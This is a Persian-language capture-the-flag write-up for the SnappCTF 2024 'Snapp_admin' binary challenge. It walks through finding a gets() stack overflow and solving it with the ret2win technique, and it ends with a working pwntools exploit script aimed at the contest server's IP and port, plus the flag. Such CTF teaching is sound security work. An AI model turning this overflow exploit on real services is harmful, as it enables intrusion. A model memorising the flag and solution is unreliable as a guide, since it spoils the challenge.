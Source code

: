 ```yaml
---
tags:
  - SnappCTF
  - SnappCTF-2024
  - PWN
  - Exploit
  - GDB
  - Pwntools
  - BufferOverflow
---
```

# Snapp_admin

<center>
![Snapp_admin1.png](Snapp_admin1.png)
</center>

سلام گایززز چطور مطوریایین؟
خب بریم با ی چلنج دیگه از SnappCTF ببینیم چیخبراست؟! :)
در ابتدای کار با استفاده از ابزار checksec متوجه میشیم که فایل باینری دارای Stack Canary و PIE نیست.

<center>
![Snapp_admin2.png](Snapp_admin2.png)
</center>

بعد از این کار سعی میکنیم تا با ghidra یک بررسی روی توابع برنامه انجام بدیم و با چنین صحنه ای مواجه میشیم(قسمت هایلایت شده) :

<center>
![Snapp_admin3.png](Snapp_admin3.png)
</center>

وجود تابع gets در برنامه ما رو به این سمت هدایت میکنه که برنامه آسیب پذیری BufferOverflow رو داره. از طرفی وجود تابع is_admin تاییدی هست برای این موضوع که باید از تکنیک [ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win) استفاده کنیم. 

<center>
![Snapp_admin4.png](Snapp_admin4.png)
</center>

به طور خلاصه کاری که در این تکنیک انجام میشه این هست که return pointer یا EIP(rip) رو overwrite میکنیم به سمت یک آدرس دلخواه تا پس از اتمام یک تابع به جای برگشت برنامه به مسیر و روند اصلی خود، به سمت دلخواه ما تغییر مسیر دهد و تابع مورد نظر ما اجرا شود.
برای اینکه این کارو انجام بدیم نیاز هست که بدونیم offset ما کجاست و درواقع در کجای استک هست که rip از اونجا شروع میشه و با بازنویسی (Overwrite) کردن اون میتونیم به هدفمون برسیم.
قبل از اینکه به تابع gets برسیم خیلی واضح هست که باید اولین ورودی که به برنامه میدیم باید عدد 9606 باشه تا بتونیم وارد دستورات بلوک if بشیم و تابع gets از ما ورودی بعدی رو بگیره.
خیلی راحت سعی میکنم تا برنامه رو توی gdb بازش کنیم و با استفاده از دستورات  مثل pattern create و pattern search به پیدا کردن offset ها میپردازیم. لینک زیر بهتر میتونه شما رو در این باره راهنمایی کنه : 

[Pattern](https://hugsy.github.io/gef/commands/pattern/)

بعد از پیدا کردن offset سعی میکنیم تا تابعی که قصد داریم تا در نهایت به سمت اون ret کنیم رو در payload خودمون بذاریم و اون رو به برنامه بدیم.
برای پیدا کردن آدرس تابع is_admin میتونیم از دستور زیر استفاده کنیم: 

`readelf -s snapp_admin | grep -i is_admin`

یا توی gdb از دستور info functions استفاده کنیم.
با پیدا کردن offset و آدرس تابع is_admin و به کار گرفتن pwntools حالا خیلی راحت میتونیم به is_admin برسیم.
تنها قدمی که میمونه اینه که ما بعد از ورود به تابع is_admin باید دو مقدار دیگه رو به عنوان ورودی به برنامه بدیم تا فلگ برامون نمایش داده بشه. اولین مقداری که بعد از ورود به این تابع به برنامه میدیم باید 9600 باشه. چرا که تابع read تنها در صورتی که اولین آرگومانش صفر باشه میاد ازما ورودی بعدی رو میگیره و ما به گرفتن ورودی بعدی نیاز داریم چرا که باید دستورات درون بلوک if اجرا شوند که شامل دستور نمایش فلگ هم هست. در آخرین قسمت ماجرا هم برنامه از ما ورودی چهارم رو که SNAPP هست رو میگیره و تمام!

<center>
![Snapp_admin5.png](Snapp_admin5.png)
</center>


و در آخر exploit نهایی این چالش :
```python
from pwn import *

context.log_level = "critical"
# ncat --proxy-type socks5 --proxy 127.0.0.1:2080 91.107.177.236 1337
# context.proxy = (socks.SOCKS4, "127.0.0.1", 2080)

def run(i):
    p = remote('91.107.177.236', 1337)
    p.sendline(b'9606')
    p.sendline(b'a'*i + p64(0x40101a) + p64(0x00401296))
    p.sendline(b'9600')
    p.sendline(b'SNAPP')
    if 'SNAPP{' in (res:=p.clean(2).decode()):
        print(f"[!] offset={i}\n{res}")

for i in range(8, 16):
    run(i*4)
```





??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{Wh3Re_is_@dm1n_I_f0rgoT_my_cOd3}`</div>

--- 

!!! نویسنده
    [nim0x2a](https://github.com/nim0x2a)

	
